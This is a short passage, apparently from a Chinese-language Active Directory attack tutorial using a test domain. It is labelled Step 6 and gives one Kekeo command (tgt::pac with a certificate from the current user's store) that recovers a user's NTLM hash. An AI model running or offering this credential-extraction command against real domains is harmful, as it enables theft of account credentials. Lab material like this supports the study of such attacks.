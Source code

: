[![](assets/1701606771-73eef6e1678c6d20b25e331fc7f69d17.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106143507-a04fe02c-7c6e-1.png)  
Step 6：使用 Kekeo 获取用户的 NTLM

```plain
tgt::pac /subject:Al1ex /castore:current_user /domain:hacke.testlab
```
